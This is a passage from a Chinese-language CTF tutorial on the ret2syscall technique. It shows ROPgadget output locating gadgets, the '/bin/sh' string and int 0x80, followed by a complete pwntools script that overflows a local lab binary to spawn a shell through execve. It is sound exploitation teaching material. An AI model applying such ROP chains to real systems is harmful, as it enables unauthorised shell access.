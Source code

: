 这里，我选择

```text
0x0806eb90 : pop edx ; pop ecx ; pop ebx ; ret
```

这个可以直接控制其它三个寄存器。

此外，我们需要获得/bin/sh字符串对应的地址。

```shell
➜  ret2syscall ROPgadget --binary rop  --string '/bin/sh' 
Strings information
============================================================
0x080be408 : /bin/sh
```

可以找到对应的地址，此外，还有int 0x80的地址，如下

```text
➜  ret2syscall ROPgadget --binary rop  --only 'int'                 
Gadgets information
============================================================
0x08049421 : int 0x80
0x080938fe : int 0xbb
0x080869b5 : int 0xf6
0x0807b4d4 : int 0xfc

Unique gadgets found: 4
```

同时，也找到对应的地址了。

下面就是对应的payload,其中0xb为execve对应的系统调用号。

```python
#!/usr/bin/env python
from pwn import *

sh = process('./rop')

pop_eax_ret = 0x080bb196
pop_edx_ecx_ebx_ret = 0x0806eb90
int_0x80 = 0x08049421
binsh = 0x80be408
payload = flat(
    ['A' * 112, pop_eax_ret, 0xb, pop_edx_ecx_ebx_ret, 0, 0, binsh, int_0x80])
sh.sendline(payload)
sh.interactive()
```

## 题目



# ret2libc
